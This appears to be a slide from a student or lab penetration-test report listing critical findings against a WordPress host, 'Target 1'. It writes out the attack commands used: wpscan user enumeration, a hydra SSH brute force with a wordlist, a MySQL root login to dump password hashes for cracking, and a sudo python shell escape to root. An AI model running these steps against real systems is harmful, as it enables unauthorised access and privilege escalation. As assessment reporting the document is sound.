

# Critical Vulnerabilities: Target 1
Our assessment uncovered the following critical vulnerabilities in Target 1.

| Vulnerability | Description | Impact |
| --- | --- | --- |
| WPscan user enumeration | Using wpscan http://192.168.1.110/wordpress --enumerate u to find the users Steven and Michael | Allowed us to figure out a usernameon wordpress server in order to run a brute force attack against |
| Brute force attack | Used hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 -t 4 | Uncovered michael username password |
| SQL Injection | opened database using mysql -h localhost -u root -p under michael | albe to query database to find michael & steven user\_pass hashes. Ran john to find Steven’s password |
| Python spawn exploitation | Used sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’ | As steven, we were able to run this command in order to escalate to root because python can be executed as sudo |
5